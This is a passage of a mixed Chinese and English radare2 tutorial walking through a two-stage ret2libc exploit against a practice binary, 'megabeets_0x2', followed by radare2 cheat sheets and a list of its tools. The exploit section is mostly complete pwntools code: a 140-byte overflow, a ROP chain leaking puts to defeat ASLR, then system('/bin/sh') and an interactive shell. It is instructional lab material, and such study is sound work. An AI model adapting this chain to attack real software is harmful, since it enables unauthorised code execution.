​		为此，我们将在 `PLT `和 `GOT` 中找到` puts `的地址，然后以 `puts@got `作为参数调用` puts@plt`。 我们将链接这些调用并将它们发送到 `scanf `期望我们输入的程序。 然后我们将返回到我们利用的第二阶段的入口点。 将会发生的是`puts `会打印出它自己的真实地址

```
+---------------------+
|       Stage 1       |
+---------------------+
| padding (140 bytes) |
| puts@plt            |
| entry_point         |
| puts@got            |
+---------------------+
```

使用 pwnlib 框架编写漏洞利用

 python skeleton for the first stage:

```
from pwn import *

# Addresses
puts_plt =
puts_got =
entry_point =

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140 # padding
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    p.clean()

if __name__ == "__main__":
    main()
```

需要填写`puts@plt`、`puts@got`的地址，以及程序的入口点。 

在radare2并执行以下命令。` #` 字符用于注释，`~` 字符是 radare 的内部 `grep`。

`sym.imp.puts` 和 `reloc.puts `是 radare 检测的标志。 命令 `ie `代表信息入口点。

```
[0xf7fba120]>  # the address of puts@plt:
[0xf7fba120]> ?v sym.imp.puts
0x8048390
[0xf7fba120]> # the address of puts@got:
[0xf7fba120]> ?v reloc.puts
0x804a014
[0xf7fba120]> # the address of program’s entry point (entry0):
[0xf7fba120]> ieq
0x080483d0
```

将地址填入

```
...

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

...
```

执行该脚本

```
$ python3 exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 23578
[*] puts is at: 0xf75db710
[*] Stopped process ‘./megabeets_0x2’ (pid 23578)
 
$ python3 exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 23592
[*] puts is at: 0xf7563710
[*] Stopped process ‘./megabeets_0x2’ (pid 23592)
 
$ python3 exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 23606
[*] puts is at: 0xf75e3710
[*] Stopped process ‘./megabeets_0x2’ (pid 23606)
```

​		执行了 3 次，可以看到 `puts` 的地址在每次运行中是如何变化的。 因此我们无法事先预测它的地址。 现在我们需要找到 `puts` 在 `libc` 中的偏移量，然后计算`libc` 的基地址。 有了基地址后，我们可以使用它们的偏移量计算`system`、`exit`和`“/bin/sh”`的真实地址。

Our skeleton now should look like this:

```
from pwn import *

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

# Offsets
offset_puts = 
offset_system = 
offset_str_bin_sh = 
offset_exit = 

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    
    p.clean()
    
    # Calculate libc base

    libc_base = leak - offset_puts
    log.info("libc base: 0x%x" % libc_base)

    # Stage 2
    
    # Calculate offsets
    system_addr = libc_base + offset_system
    binsh_addr = libc_base + offset_str_bin_sh
    exit_addr = libc_base  + offset_exit

    log.info("system: 0x%x" % system_addr)
    log.info("binsh: 0x%x" % binsh_addr)
    log.info("exit: 0x%x" % exit_addr)

if __name__ == "__main__":
    main()
```

### 3.Calculating the real addresses

​		不同版本的 libc，偏移量会不同。

​		首先我们需要找到 `puts`相对于`ibc `基地址的偏移量。 然后再次打开radare2并继续执行，直到到达程序的入口点。 必须这样做是因为radare2 在加载libc 之前就开始调试了。 当我们到达入口点时，库肯定会被加载。

​	使用 `dmi `命令并将   libc   和所需的函数传递给它。 添加` ~`以仅显示相关行。

```
$ r2 -d megabeets_0x2 
INFO: glibc.fc_offset = 0x00148
 -- Use headphones for best experience.
 
[0xf7f75120]> dcu entry0
INFO: Continue until 0x080483d0 using 1 bpsize
hit breakpoint at: 0x80483d0
[0x080483d0]> dmi libc puts~ puts$
461 0x00071cd0 0xf7dcecd0 WEAK FUNC 531      puts
[0x080483d0]> dmi libc system~ system$
1534 0x00045830 0xf7da2830 WEAK FUNC 63       system
[0x080483d0]> dmi libc exit~ exit$
150 0x00038170 0xf7d95170 GLOBAL FUNC 39       exit

```

​		所有这些 ` 0x000xxxxx    `   都是函数相对于 libc base 的偏移量。 

​		然后在程序中找到`“/bin/sh”`。

​		 为此，我们将使用radare的搜索功能。 默认情况下，radare 在 	`dbg.map ` 中搜索，这是当前的内存映射。 我们想在所有内存映射中搜索，所以我们需要配置它：

```
[0x080483d0]> e search.in = dbg.maps
```

如果执行 e search.in=? 可以查看更多选项 . 要以视觉方式配置radare，请使用 Ve。

使用雷达搜索是由   ` / `   命令完成的。 ( /R   用于搜索 ROP 的小工具)

```
[0x080483d0]> / /bin/sh
Searching 7 bytes in [0x8048000-0x8049000]
hits: 0
Searching 7 bytes in [0x8049000-0x804a000]
hits: 0
Searching 7 bytes in [0x804a000-0x804b000]
hits: 0
Searching 7 bytes in [0xf7d5d000-0xf7d7a000]
hits: 0
Searching 7 bytes in [0xf7d7a000-0xf7ed5000]
hits: 0
Searching 7 bytes in [0xf7ed5000-0xf7f45000]
hits: 1
Searching 7 bytes in [0xf7f45000-0xf7f46000]
hits: 0
Searching 7 bytes in [0xf7f46000-0xf7f48000]
hits: 0
Searching 7 bytes in [0xf7f48000-0xf7f4a000]
hits: 0
Searching 7 bytes in [0xf7f4a000-0xf7f4c000]
hits: 0
Searching 7 bytes in [0xf7f6c000-0xf7f6e000]
hits: 0
Searching 7 bytes in [0xf7f6e000-0xf7f72000]
hits: 0
Searching 7 bytes in [0xf7f72000-0xf7f74000]
hits: 0
Searching 7 bytes in [0xf7f74000-0xf7f75000]
hits: 0
Searching 7 bytes in [0xf7f75000-0xf7f93000]
hits: 0
Searching 7 bytes in [0xf7f93000-0xf7f9e000]
hits: 0
Searching 7 bytes in [0xf7f9f000-0xf7fa0000]
hits: 0
Searching 7 bytes in [0xf7fa0000-0xf7fa1000]
hits: 0
Searching 7 bytes in [0xffe99000-0xffeba000]
hits: 0
0xf7eef352 hit0_0 .b/strtod_l.c-c/bin/shexit 0canonica.


[0x080483d0]> dmm~libc
0xf7d5d000 0xf7d7a000  /usr/lib/i386-linux-gnu/libc-2.31.so

[0x080483d0]> ?X 0xf7eef352-0xf7d5d000
192352
```

通过计算`“/bin/sh”`相对于  libc  基数的偏移量是 0x192352。 让我们将其填充到我们的漏洞利用中并进入最后一部分。

```
...
# Offsets
offset_puts = 0x00071cd0 
offset_system = 0x00045830
offset_exit = 0x00038170
offset_str_bin_sh = 0x192352  
...
```

### 4.Spawning a shell

漏洞利用的第二阶段非常简单。 我们将再次使用 140 字节的填充，然后以 `"/bin/sh"` 的地址作为参数调用 `system`，然后返回 `exit`。

```
+---------------------+
|       Stage 2       |
+---------------------+
| padding (140 bytes) |
| system@libc         |
| exit@libc           |
| /bin/sh address     |
+---------------------+
```

还记得我们上次回到入口点吗？ 这意味着 scanf 再次等待我们的输入。 现在我们需要做的就是链接这些调用并将其发送到程序。

这是最终的脚本。 正如我之前提到的，您需要替换偏移量以匹配您的 libc 版本。

```
from pwn import *

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

# Offsets
offset_puts = 0x00071cd0 
offset_system = 0x00045830
offset_exit = 0x00038170
offset_str_bin_sh = 0x192352  

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    p.clean()
    
    # Calculate libc base
    libc_base = leak - offset_puts
    log.info("libc base: 0x%x" % libc_base)

    # Stage 2
    
    # Calculate offsets
    system_addr = libc_base + offset_system
    exit_addr = libc_base  + offset_exit
    binsh_addr = libc_base + offset_str_bin_sh

    log.info("system is at: 0x%x" % system_addr)
    log.info("/bin/sh is at: 0x%x" % binsh_addr)
    log.info("exit is at: 0x%x" % exit_addr)

    # Build 2nd payload
    payload2  =  "A"*140
    ropchain2 =  p32(system_addr)
    ropchain2 += p32(exit_addr)
    # Optional: Fix disallowed character by scanf by using p32(binsh_addr+5)
    #           Then you'll execute system("sh")
    ropchain2 += p32(binsh_addr) 

    payload2 = payload2 + ropchain2
    p.sendline(payload2)

    log.success("Here comes the shell!")

    p.clean()
    p.interactive()

if __name__ == "__main__":
    main()
```


## Exploitation Cheatsheet

Here’s a list of the commands I mentioned in this post (and a little more). You can use it as a reference card.

### Gathering information

- `$ rabin2 -I ./program` — Binary info (same as `i` from radare2 shell)
- `ii [q]` – Imports
- `?v sym.imp.func_name` — Get address of func_name@PLT
- `?v reloc.func_name` — Get address of func_name@GOT
- `ie [q]` — Get address of Entrypoint
- `iS` — Show sections with permissions (r/x/w)
- `i~canary` — Check canaries
- `i~pic` — Check if Position Independent Code
- `i~nx` — Check if compiled with NX

### Memory

- `dm` — Show memory maps
- `dmm` — List modules (libraries, binaries loaded in memory)
- `dmi [addr|libname] [symname]` — List symbols of target lib

### Searching

- `e search.*` — Edit searching configuration
- `/?` — List search subcommands
- `/ string` — Search string in memory/binary
- `/R [?]` — Search for ROP gadgets
- `/R/` — Search for ROP gadgets with a regular expressions

### Debugging

- `dc` — Continue execution
- `dcu addr` – Continue execution until address
- `dcr` — Continue until ret (uses step over)
- `dbt [?]` — Display backtrace based on *dbg.btdepth* and *dbg.btalgo*
- `doo [args]` — Reopen in debugger mode with args
- `ds` — Step one instruction
- `dso` — Step over

### Visual Modes

- `pdf @ addr` — Print the assembly of a function in the given offset
- `V` — Visual mode, use `p`/`P` to toggle between different modes
- `VV` — Visual Graph mode, navigating through ASCII graphs
- `V!` — Visual panels mode. Very useful for exploitation

Check (http://radare.today/posts/using-radare2/) on radare’s blog to see more commands that might be helpful.


# 更多指令

While more and more people are using radare2 during ctf, in the same time we’ve got more and more complains that there is not enough documentation about radare2.

This article’s goal is to make a small cheat-sheet when it comes to pwn things with our beloved piece of software.

Keep in mind that:

- Every character has a meaning (`w` stands for *write*, `p` stands for *print*, …)
- Every command can be a succession of character (`pdf` stands for `p`: *print*, `d`: *disassemble*, `f`: *function*
- Every command is documented with ? (`pdf?`, `???`, …)

## Search

- search a string in memory/binary: `/ yourstring`
- search for rop gadgets: `/R`
- search for rop gadgets with a regexp: `/R/`
- show strings: `iz`
- find writeable sections: `iS | grep perm=..w`
- find executables sections: `iS | grep perm=...x`
- find xref of a function: `axt [offset|yourfunctioname]`
- list libc imports: `is~imp.`
- generate cyclical pattern: `ragg2 -P $SIZE -r`
- find offset of pattern: `wopO $VALUE`
- change the deep of the rop-search: `e search.roplen = 4`
- computing how far a symbol is from where you currently are: `fd [offset|yourfunctioname]`
- find protections in binary:
  - `i~canary` for canaries
  - `i~pic` for Position Independent Code
  - `i~nx` for non-executable stack

## Emulation

- initialize emulation: `aei`
- deinitialize emulation: `aed`
- emulate a whole function: `aef`
- single-step: `aes`

## Display

- hexdump: `pxw [len] [@ offset]`

- get offset of a symbol: `?v sym.main`

- disassemble a whole function: `pdf @ [offset|yourfunctioname]`

- list functions: `afl`

- get in which function an address is used:

   

  ```
  afi address~fcn
  ```

  - `afi` to get function information
  - `~fcn` to grep for “fcn”
  - append `j` to get a JSON output : `ij`, `pdfj`, `/Rj` …

- calculus of offsets: `? 0x20 + 0x4028a0`

## Debugger

- connecting the gdbserver `r2 -D gdb -d [binary] gdb://[address:port]` ([full doc](https://github.com/radare/radare2/blob/master/doc/gdb))
- connecting the remote windbg `r2 -D wind -d [binary] windbg://[pipe address]` ([full doc](https://github.com/radare/radare2/blob/master/doc/gdb))
- show registers: `dr=`
- emuling strace: `dcs*`
- disassemble at register `reg`: `pd [len] @ [reg]`

## Misc

- emulating socat: `rarun2 program=./plzpwnme.exe listen=4444` You should really take a look at `rarun2`'s manpage.

# 最常使用


查看具体信息  先进行查看  `rabin2 ` `-I`查看信息  `-l`显示依赖库 `-zz`显示字符串信息 			或者在打开后执行   `iI`    

查看字段里的字符串   				`rabin2 -z  xxxxxx`

打开											`r2 xxxx`

完整分析 									`aaa`				简短分析`aas`   

查看汇编程序			   			`pdf`			pd类命令用于打印汇编信息

列出字符串标志空间					`fs strings`

列出数据部分中的字符串			`iz` 

在整个二进制文件中搜索字符串	`izz `

查看radare2为我们标记了哪些其他函数   `afl`   (Analyze Functions List)

寻找主函数`s main`        

进入图形模式  `VV`

图形模式下运行radare指令  `:`

反汇编类似ida中的 F5		`pdc`  也可以安装插件 使用pdg

```
r2pm -ci r2ghidra
```


# 其他工具

Radare2 在命令行下有一些小工具可供使用：

- radare2：十六进制编辑器和调试器的核心，通常通过它进入交互式界面。
- rabin2：从可执行二进制文件中提取信息。
- rasm2：汇编和反汇编。
- rahash2：基于块的哈希工具。
- radiff2：二进制文件或代码差异比对。
- rafind2：查找字节模式。
- ragg2：r_egg 的前端，将高级语言编写的简单程序编译成x86、x86-64和ARM的二进制文件。
- rarun2：用于在不同环境中运行程序。
- rax2：数据格式转换。
